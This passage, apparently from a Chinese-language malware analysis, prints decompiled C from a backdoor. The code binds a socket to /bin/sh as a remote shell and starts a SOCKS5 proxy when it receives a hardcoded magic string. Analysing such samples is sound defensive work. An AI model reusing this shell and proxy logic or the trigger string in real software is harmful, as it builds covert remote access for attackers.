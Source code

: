 ```c
    }

```

exec_shell函数：

```c
int __fastcall exec_shell(int fd)
{
  if ( fork() > 0 )
  {
    close(fd);
    exit(0);
  }
  dup2(fd, STDIN_FILENO);
  dup2(fd, STDOUT_FILENO);
  dup2(fd, STDERR_FILENO);
  execl("/bin/sh", "-sh", 0LL);
  return 0;
}
```

# 2) Socks5 Proxy

第二个功能是socks5代理，匹配功能编号成功后，调用`exec_socks5(cmd_fd)`进入设置代理函数

```c
    {
      v13 = v5;
      v14 = "worderx=Bo9vrZ6TKBmq; typefp=2"; 
      v15 = 30LL;
      do
      {
        if ( !v15 )
          break;
        v11 = *v13 < (const unsigned __int8)*v14;
        v12 = *v13++ == *v14++;
        --v15;
      }
      while ( v12 );
      v16 = !v11 && !v12;
      v17 = v11;
      v18 = v16 < (unsigned __int8)v11;
      v19 = v16 == v17;
      if ( v16 == v17 )
      {
        msend(cmd_fd, "worderx2", 9);
        exec_socks5(cmd_fd);
      }
```

exec_socks5 设置代理函数中创建了一个子进程，随后进入worker函数中去设置代理的SOCKET链接

